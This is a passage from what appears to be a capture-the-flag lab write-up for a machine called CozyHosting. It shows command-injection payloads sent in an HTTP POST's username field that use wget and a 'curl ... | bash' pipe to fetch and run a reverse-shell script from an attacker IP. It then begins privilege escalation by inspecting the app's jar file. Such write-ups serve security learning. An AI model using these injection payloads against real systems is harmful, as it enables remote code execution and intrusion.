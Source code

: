 ```



host=10.10.11.230&username=`wget${IFS}9http://10.10.16.6:3000/test.txt`
```

When trying the reverse shell payloads, it seems that the one liners payloads do not work properly. As such we will write our reverse shell into ```shell.sh``` file and afterwards, we will use a ```curl``` command to trigger the reverse shell.

```
POST /executessh HTTP/1.1
Host: cozyhosting.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 85
Origin: http://cozyhosting.htb
Connection: close
Referer: http://cozyhosting.htb/admin
Cookie: JSESSIONID=5C36E145B98D7DA8235AE0D328240013
Upgrade-Insecure-Requests: 1



host=test&username=`curl${IFS}http://10.10.16.6:4000/shell.sh|bash`
```

# Privilege Escalation
However, we are only the ```app``` user and we do not have the permissions to read the user.txt file

```
app@cozyhosting:/app$ cat /home/josh/user.txt
cat /home/josh/user.txt
cat: /home/josh/user.txt: Permission denied
app@cozyhosting:/app$ 
```

In the current directory, we are able to find a jar file. We will then copy the jar to our local directory to inspect the contents of the jar file. 

```
app@cozyhosting:/app$ ls -a
ls -a
.  ..  cloudhosting-0.0.1.jar
```

In htb.cloudhosting.scheduled.FakeUser.java, we are able to find the crednetials for the kanderson user previously. Unfortunately, this user is not able to obtain SSH access to our target server.

```
package htb.cloudhosting.scheduled;

import java.io.IOException;
import java.util.concurrent.TimeUnit;
import org.springframework.scheduling.annotation.Scheduled;
import org.springframework.stereotype.Component;
import org.springframework.web.servlet.support.WebContentGenerator;

@Component
/* loaded from: cloudhosting-0.0.1.jar:BOOT-INF/classes/htb/cloudhosting/scheduled/FakeUser.class */
public class FakeUser {
```